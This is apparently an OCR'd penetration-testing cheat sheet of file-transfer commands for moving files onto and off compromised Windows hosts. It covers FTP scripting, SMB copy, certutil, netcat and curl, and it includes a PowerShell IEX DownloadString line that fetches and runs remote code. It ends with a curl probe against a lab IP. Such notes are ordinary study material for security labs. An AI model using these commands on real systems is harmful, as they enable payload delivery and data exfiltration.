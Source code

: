 FTP 
echo open <IP> 21 > ftp.txt echo anonymous>> ftp.txt echo password>> ftp.txt echo binary>> ftp.txt echo GET <FILE> >> ftp.txt echo bye>> ftp.txt
ftp -v -n -s:ftp.txt

SMB
copy \\<IP>\<PATH>\<FILE> # Linux -> Windows
copy <FILE> \\<IP>\<PATH>\ # Windows -> Linux

POWERSHELL
powershell.exe (New-Object System.Net.WebClient).DownloadFile('<URL>', '<DESTINATION_FILE>')
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('<URL>')
powershell "wget <URL>"

PYTHON
python.exe -c "from urllib import urlretrieve; urlretrieve('<URL>', '<DESTINATION_FILE>')"

CERTUTIL
certutil.exe -urlcache -split -f "<URL>"

NETCAT
nc -lvp 1234 > <OUT_FILE> 
nc <IP> 1234 < <IN_FILE>
· Nc <IP> [PORT]
	• HEAD / HTTP/1.0

CURL
curl [URL] -o <OUT_FILE>

HTTP
Use "curl" to pull the source code and look for additional endpoints in "form-action' tags.
We can use curl with Conten-Legnth: 0 header
curl -s -i -X POST -H 'Content-Length: 0' http://192.168.120.209:33333/list-running-procs